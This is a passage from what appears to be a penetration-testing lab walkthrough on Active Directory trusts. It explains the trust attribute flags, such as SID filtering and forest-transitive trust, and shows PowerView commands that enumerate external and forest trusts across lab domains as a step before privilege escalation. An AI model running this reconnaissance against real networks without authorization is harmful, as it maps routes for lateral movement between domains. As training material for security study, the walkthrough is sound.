- NON_TRANSITIVE (0x00000001) — The trust cannot be used transitively. That is, if DomainA trusts DomainB and DomainB trusts DomainC, then DomainA does not automatically trust DomainC. Also, if a trust is non-transitive, thenyou will not be able to query any Active Directory information from trusts up the chain from the non-transitive point. External trusts are implicitly non-transitive.
- UPLEVEL_ONLY (0x00000002) — only Windows 2000 operating system and newer clients can use the trust.
- QUARANTINEDDOMAIN (0x00000004) — SID filtering is enabled (more on this later). Output as FILTERSIDS with PowerView for simplicity.
- FOREST_TRANSITIVE (0x00000008) — cross-forest trust between the root of two domain forests running at least domain functional level 2003 or above.
- CROSSORGANIZATION (0x00000010) — the trust is to a domain or forest that is not part of the organization, which adds the OTHERORGANIZATION SID. This is a bit of a weird one.
According to this post it means that the selective authentication security protection is enabled. For more information, check out this MSDN doc.
- WITHIN_FOREST (0x00000020) — the trusted domain is within the same forest, meaning a parent->child or cross-link relationship
- TREATASEXTERNAL (0x00000040) — the trust is to be treated as external for trust boundary purposes. According to the documentation, “If this bit is set, then a cross-forest trust to a domain is to be treated as an external trust for the purposes of SID Filtering. Cross-forest trusts are more stringently filtered than external trusts. This attribute relaxes those cross-forest trusts to be equivalent to external trusts.” This sounds enticing, and I’m not 100% sure on the security implications of this statement ¯\(ツ)/¯ but I will update this post if anything new surfaces.
- USESRC4ENCRYPTION (0x00000080) — if the TrustType is MIT, specifies that the trust that supports RC4 keys.
- USESAESKEYS (0x00000100) — not listed in the linked Microsoft documentation, but according to some documentation I’ve been able to find online, it specifies that AES keys are used to encrypt KRB TGTs.
- CROSSORGANIZATIONNOTGTDELEGATION (0x00000200) — “If this bit is set, tickets granted under this trust MUST NOT be trusted for delegation.” This is described more in [MS-KILE] 3.3.5.7.5 (Cross-Domain Trust and Referrals.)
- PIM_TRUST (0x00000400) — “If this bit and the TATE (treat as external) bit are set, then a cross-forest trust to a domain is to be treated as Privileged Identity Management trust for the purposes of SID Filtering.” According to [MS-PAC] 4.1.2.2 (SID Filtering and Claims Transformation), “*A domain can be externally managed by a domain that is outside the forest.
The trusting domain allows SIDs that are local to its forest to come over a PrivilegedIdentityManagement trust.*”
Let’s now query all the External Trusts we do have from our current domain eu.techcorp.local.Get-ForestDomain -Verbose | Get-DomainTrust | ?{$.TrustAttributes -eq 'FILTERSIDS'}

(us.techcorp.local → eu.local) Domain Trust
- Direction: Bidirectional → Mutual trust, allowing access between both domains.
- SourceName:
us.techcorp.local→ The trust originates fromus.techcorp.local. - TargetName:eu.local→ The trust applies to the external domaineu.local. - TrustType: WINDOWSACTIVEDIRECTORY → The trusted domain is running Active Directory. - TrustAttributes: FILTER_SIDS → SID filtering is enabled to protect against SID injection attacks. - WhenCreated:7/13/2019 11:17:35 AM→ The trust was established on this date. - WhenChanged:1/17/2025 5:06:16 AM→ The trust was last modified on this date. We can see above that we do have a BiDirectional Trust betweenus.techcorp.local <---> eu.local. Trust betweenus.techcorp.localandeu.localis a domain-level bidirectional trust with SID filtering enabled for security. This protects the trusting domain from SID injection attacks. Since we do have a 2-Ways or BiDirectional trust with an External Trust witheu.local, we can also query the Trusteu.localhave.Get-ForestTrust -Forest eu.local

(euvendor.local → eu.local) Forest Trust
- Direction: Bidirectional → Mutual access between both forests.
- TopLevelNames:
{euvendor.local}→ Indicates the trusted top-level domain of the external forest. - ExcludedTopLevelNames:{}→ No domains are excluded from this trust. - SourceName:eu.local→ The trust originates from theeu.localforest. - TargetName:euvendor.local→ The trust applies to the external foresteuvendor.local. - TrustType: Forest → A forest-level trust that applies across all domains in both forests. Trust betweeneu.localandeuvendor.localis a forest-level trust and is bidirectional, enabling resource sharing across all domains within both forests. No exclusions or limitations are applied to the trusted domains.
We have now completed all the steps needed for a good enumeration inside our target environment.
Let’s now move to the next step to explore some privilege escalation techniques.